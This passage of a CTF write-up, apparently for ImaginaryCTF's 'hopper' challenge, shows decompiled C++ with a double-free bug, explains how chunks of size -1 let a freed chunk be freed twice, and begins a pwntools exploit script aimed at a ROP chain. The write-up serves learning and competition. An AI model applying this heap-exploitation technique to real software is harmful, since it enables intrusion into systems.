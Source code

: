 ```c
      v4 = std::vector<int>::begin(size_vec);
      v5 = __gnu_cxx::__normal_iterator<int *,std::vector<int>>::operator+(&v4, i);
      __gnu_cxx::__normal_iterator<int const*,std::vector<int>>::__normal_iterator<int *>(&v6, &v5);
      std::vector<int>::erase(size_vec, v6);
      v4 = std::vector<char *>::begin(cont_vec);
      v5 = __gnu_cxx::__normal_iterator<char **,std::vector<char *>>::operator+(&v4, i);
      __gnu_cxx::__normal_iterator<char * const*,std::vector<char *>>::__normal_iterator<char **>(&v6, &v5);
      std::vector<char *>::erase(cont_vec, v6);
    }
  }
  return v7 - __readfsqword(0x28u);
}
```

What happens if the second chunk is missed? The answer is `double free`.

If there is a chunk of size -1 before the freed chunk, this chunk will not disappear from the vector and will be able to free the chunk again.

Before clean:
```
chunk0(size: 10)
chunk1(size: -1)
chunk2(size: -1)
chunk3(size: -1)
chunk4(size: 11) <--- if you free this chunk,
chunk5(size: 10)
```

After first clean:
```
chunk0(size: 10)
chunk2(size: -1) <---
chunk4(size: -1) <--- it's freed and remaing
chunk5(size: 10)
```

After second clean:
```
chunk0(size: 10)
chunk4(size: -1) <--- we can free this again
chunk5(size: 10)
```

We exploit this to arbitrary address allocation, leak the stack address, and send an ROP.

```python
rom pwn import *
#context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux', 'split-window', '-h']

TARGET = './vuln'
HOST = 'hopper.chal.imaginaryctf.org'
PORT =  1337

elf = ELF(TARGET)
def start():
    if not args.R:
        print("local")
        return process(TARGET)
    else:
        print("remote")
        return remote(HOST, PORT)

```